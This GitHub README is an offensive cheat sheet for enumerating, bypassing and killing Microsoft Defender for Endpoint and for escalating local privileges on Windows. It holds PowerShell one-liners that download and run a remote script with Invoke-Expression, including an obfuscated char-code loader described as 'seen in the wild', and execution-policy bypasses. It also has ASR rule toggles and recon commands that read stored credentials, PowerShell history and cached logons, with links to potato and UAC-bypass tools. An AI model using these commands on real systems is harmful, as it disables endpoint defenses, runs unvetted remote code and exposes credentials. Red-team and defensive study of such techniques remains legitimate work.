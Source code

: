 # fkxdr-mindmaps for exploiting and bypassing EDR/XDR

![image](https://github.com/user-attachments/assets/a2abcdbb-f9fa-42d6-a61c-6de985be283f)

This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  
```mermaid
flowchart TD
    start((Microsoft Defender))
    
    start --> MDEENUM[Enumerate Defender settings]
    MDEENUM --> |fkmde.ps1| MDEVULN[Identify vulnerable configurations]
    MDEENUM --> |Windows UI| MDEVULN
    
    MDEVULN --> MDEVULNASR[ASR rules]
    MDEVULNASR --> |officemacro32.docm| MDEASREXP[Exploit ASR misconfiguration]
    MDEVULNASR --> |wmiprocess.ps1| MDEASREXP
    
    MDEVULN --> MDEEXCLUSION[Defender exclusions]
    MDEEXCLUSION --> |fkmde.ps1| EXPLOITEXCL[Exploit exclusions]
    MDEEXCLUSION --> |fkmde.ps1 --enum| EXPLOITEXCL[Exploit exclusions]
    
    MDEVULN --> MDEMISCONF[Tamper Protection]
    MDEMISCONF --> |fkmde.ps1 --kill| MDEKILL[Kill Defender process]
    
    start --> MDEBYPASS[Attempt to bypass static Defender]
    MDEBYPASS --> |ps1-obfuscator.ps1| MDEBYPASS2[Bypass Defender]
    
    start --> MDESSCR[Review Smart Screen settings]
    MDESSCR --> |Test with URL| MDESSCRVULN[Exploit vulnerable Smart Screen]


```

## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [ASR Rules](#ASR-Rules)
* [Smart Screen](#Smart-Screen)
* [Ideas for LPE](#Ideas-for-LPE)

## Enumeration of MDE
### Defender for Endpoint

[fkmde.ps1]([https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1](https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1)) can be run with multiple parameters and modes to suit different use cases and operational environments. Below are the key execution types and their respective usage examples, each catering to specific functionality and user requirements.

  ```powershell
  // basic method with iex
  Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')

  // parameterized mode with iex and irm
  Invoke-Expression "& { $(Invoke-RestMethod https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1) } --enum C:\Windows 3"

  // obfuscated execution with ps1-obfuscator seen in the wild
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"

  // bypass execution (this will get flagged in Defender as Medium Incident - Multi-stage incident involving Execution & Discovery)
  powershell -nop -c "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')"
  ```

> [!NOTE]
> By default, the PowerShell [execution policy](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies) is set to `Restricted` on clients, and `RemoteSigned` on servers, when a new `powershell.exe` process is started. These policies block the execution of (unsigned) scripts, but they can be overriden within the current scope. However, this trick does not work when the execution policy is enforced through a GPO. In this case, after starting a new PowerShell session, you can load the script with the second command.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
Get-Content .\fkmde.ps1 | Out-String | Invoke-Expression
```

## ASR Rules

This section includes Proof of Concepts (PoCs) and scripts to evaluate the effectiveness of ASR rules, which help secure systems by reducing the attack surface for malicious or unauthorized applications.

### officemacro32.docm

**Rules:**
- **d4f940ab-401b-4efc-aadc-ad5f3c50688a**
- **92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b**

  ```console
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  ```
  
  ![image](https://github.com/user-attachments/assets/00216155-88a4-482c-9225-7296380d0ede)

> [!NOTE]
> If Microsoft flags the document due to an untrusted source, right-click the document, go to properties, and select the option to trust the source.


### wmiprocess.ps1 

**Rule:**
- **d1e49aac-8f56-4280-b9ba-993a6d77406c**
  
  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
  ```
  
![image](https://github.com/user-attachments/assets/63abd5b5-50a2-4f25-aac4-69691ccd0f8b)
  
## Smart Screen

A curated collection of Smart Screen test links to evaluate various behaviors, including phishing, malware detection, and exploit blocking.

- [Smart Screen Test](https://commandcontrol.smartscreentestratings.com)
- [Smart Screen Test 2](https://smartscreentestratings2.net)
- [Phishing Test](https://demo.smartscreen.msft.net/phishingdemo.html)
- [Malware Detection](https://demo.smartscreen.msft.net/other/malware.html)
- [Untrusted Download](https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe)
- [Exploit Test](https://demo.smartscreen.msft.net/other/exploit.html)


## Ideas for LPE

The following commands and tools provide potential avenues for exploring local privilege escalation methods. They include registry checks, credential queries, and accessing Windows Subsystem for Linux (WSL) binaries.

```powershell
// password policy
net accounts

cmdkey /list
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON" /v CACHEDLOGONSCOUNT

// privescCheck.ps1
powershell -ep bypass -c "Invoke-Expression -Command (Invoke-RestMethod 'https://raw.githubusercontent.com/itm4n/PrivescCheck/refs/heads/master/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT"
```

Review WSL for permissions and exploits  

```
C:\Windows\System32\bash.exe
C:\Windows\System32\wsl.exe
```

- [RunasCs](https://github.com/antonioCoco/RunasCs)
- [EnableAllTokenPrivs](https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1)
- [GodPotato](https://github.com/BeichenDream/GodPotato)
- [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)

- [Invoke-UAC](https://github.com/BlackShell256/Invoke-UAC)




